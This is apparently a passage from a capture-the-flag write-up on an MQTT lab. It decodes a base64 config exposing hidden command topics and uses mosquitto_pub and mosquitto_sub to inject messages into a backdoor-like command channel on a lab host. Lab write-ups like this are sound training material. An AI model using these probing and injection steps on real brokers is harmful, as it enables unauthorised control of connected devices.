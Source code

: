 ```r
kitchen/toaster {"id":447861946156371125,"in_use":true,"temperature":144.22583,"toast_time":316}
livingroom/speaker {"id":15823401485756106547,"gain":69}
patio/lights {"id":3576228414416817688,"color":"GREEN","status":"OFF"}
storage/thermostat {"id":6113459330587820991,"temperature":23.947418}
kitchen/toaster {"id":4222486249924966950,"in_use":false,"temperature":147.68697,"toast_time":357}
frontdeck/camera {"id":13395068193157550498,"yaxis":-76.047325,"xaxis":-130.62901,"zoom":3.8669345,"movement":false}
livingroom/speaker {"id":8517336037859347879,"gain":57}
patio/lights {"id":17871408563665273509,"color":"RED","status":"OFF"}
storage/thermostat {"id":13677569039790021558,"temperature":23.196152}
yR3gPp0r8Y/AGlaMxmHJe/qV66JF5qmH/config eyJpZCI6ImNkZDFiMWMwLTFjNDAtNGIwZi04ZTIyLTYxYjM1NzU0OGI3ZCIsInJlZ2lzdGVyZWRfY29tbWFuZHMiOlsiSEVMUCIsIkNNRCIsIlNZUyJdLCJwdWJfdG9waWMiOiJVNHZ5cU5sUXRmLzB2b3ptYVp5TFQvMTVIOVRGNkNIZy9wdWIiLCJzdWJfdG9waWMiOiJYRDJyZlI5QmV6L0dxTXBSU0VvYmgvVHZMUWVoTWcwRS9zdWIifQ==
<< snip >>
```
After a while we start getting some weird string of texts, they are actually ``base 64 encoded`` strings. 
Let's use decode it from the command line, why not? lol
```r
echo eyJpZCI6ImNkZDFiMWMwLTFjNDAtNGIwZi04ZTIyLTYxYjM1NzU0OGI3ZCIsInJlZ2lzdGVyZWRfY29tbWFuZHMiOlsiSEVMUCIsIkNNRCIsIlNZUyJdLCJwdWJfdG9waWMiOiJVNHZ5cU5sUXRmLzB2b3ptYVp5TFQvMTVIOVRGNkNIZy9wdWIiLCJzdWJfdG9waWMiOiJYRDJyZlI5QmV6L0dxTXBSU0VvYmgvVHZMUWVoTWcwRS9zdWIifQ== | base64 --decode       
{"id":"cdd1b1c0-1c40-4b0f-8e22-61b357548b7d","registered_commands":["HELP","CMD","SYS"],"pub_topic":"U4vyqNlQtf/0vozmaZyLT/15H9TF6CHg/pub","sub_topic":"XD2rfR9Bez/GqMpRSEobh/TvLQehMg0E/sub"}%    
```
What do we have here? We see some commands like ``HELP``, ``CMD``, and ``SYS`` and also two topics, ``pub_topic`` and ``sub_topic``.


## Exploiting MQTT

Lets send a message to the two specific topics we just found above.
Start running ``mosquitto_sub -h 10.10.211.128 -t "#" -v`` on one tab and run ``mosquitto_pub -t U4vyqNlQtf/0vozmaZyLT/15H9TF6CHg/pub -h 10.10.211.128 -m "hello"`` on the second and watch as the message ``whoami`` is published in the first tab. Not what we wanted. Why? Because if we take the encoded base64 string and decode it, it gives us the same data in plain text.
```r
patio/lights {"id":11889107811064360849,"color":"PURPLE","status":"ON"}
storage/thermostat {"id":5758065865929160412,"temperature":23.008257}
frontdeck/camera {"id":12734952258844187532,"yaxis":-115.4385,"xaxis":-51.510086,"zoom":2.436681,"movement":false}
livingroom/speaker {"id":1209212667415271368,"gain":50}
kitchen/toaster {"id":16288030482377517315,"in_use":false,"temperature":146.48544,"toast_time":339}
patio/lights {"id":2929369648636588611,"color":"RED","status":"ON"}
U4vyqNlQtf/0vozmaZyLT/15H9TF6CHg/pub whoami
storage/thermostat {"id":9531581635509475268,"temperature":23.119894}
livingroom/speaker {"id":17994486064006229578,"gain":44}
kitchen/toaster {"id":13741228036460028322,"in_use":true,"temperature":157.28143,"toast_time":151}

```

Let's use the second topic:
```r
mosquitto_pub -t XD2rfR9Bez/GqMpRSEobh/TvLQehMg0E/sub -h 10.10.211.128 -m "hello"
```
and also run ``mosquitto_sub -h 10.10.211.128 -t "#" -v`` on another tab, let's view the message
```r
mosquitto_sub -h 10.10.211.128 -t "#" -v
patio/lights {"id":4304873169885424399,"color":"PURPLE","status":"OFF"}
storage/thermostat {"id":17919406295669626160,"temperature":23.066387}
frontdeck/camera {"id":6069931459514898160,"yaxis":-127.345146,"xaxis":-108.20679,"zoom":2.2623923,"movement":true}
livingroom/speaker {"id":3344206306783571610,"gain":48}
kitchen/toaster {"id":6254890677959890702,"in_use":true,"temperature":149.53917,"toast_time":304}
XD2rfR9Bez/GqMpRSEobh/TvLQehMg0E/sub hello
```